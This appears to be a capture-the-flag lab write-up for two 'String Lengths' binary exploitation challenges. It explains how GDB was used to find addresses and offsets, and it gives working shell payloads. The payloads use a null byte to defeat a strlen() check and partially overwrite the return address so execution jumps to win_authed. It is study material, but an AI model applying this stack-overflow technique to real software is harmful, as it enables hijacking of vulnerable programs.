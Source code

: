 # String Lengths

## String Lengths (easy)

1. GDB -> `disas win_authed` -> the address of instruction after auth check is **0x211f**
2. As told in the debug output, the return address from challenge() is stored at 72 bytes from start of input buffer
3. Observing from source code, length computed by strlen() on input must be < 28

    ```shell
    echo -n -e "aaa\x00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x1f\x21" | /challenge/binary-exploitation-null-write-w
    ```

> we need to write two bytes, then one of those nibbles (the fourth least-significant one) will be a guess, and it will be incorrect 15 of 16 times. This is okay: we can just run our exploit a few times until it works (statistically, ~50% chance after 11 times and ~90% chance after 36 times)

## String Lengths (hard)

1. In gdb, `disas win_authed`, `disas main`, `disas challenge`, we get to know:
    - Instruction after auth check is at **0x1797**
    - challenge() returns at **0x1ace**
    - return value of strlen() must be <= **0x70** = 112

2. Set a breakpoint `b *challenge+413`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffcc677a8f0**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffcc677a850**, which is **rbp-0xa0** = rbp-160
    - return address is stored at **0x7ffcc677a8f8**, which is **rbp+0x8** = rbp+8
5. 168 a's followed by desired two bytes (one of the 4 nibbles is a guess, so have to run the exploit a few times):

    ```shell
    echo -n -e "aaaaa\x00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x97\x17" | /challenge/binary-exploitation-null-write 
    ```
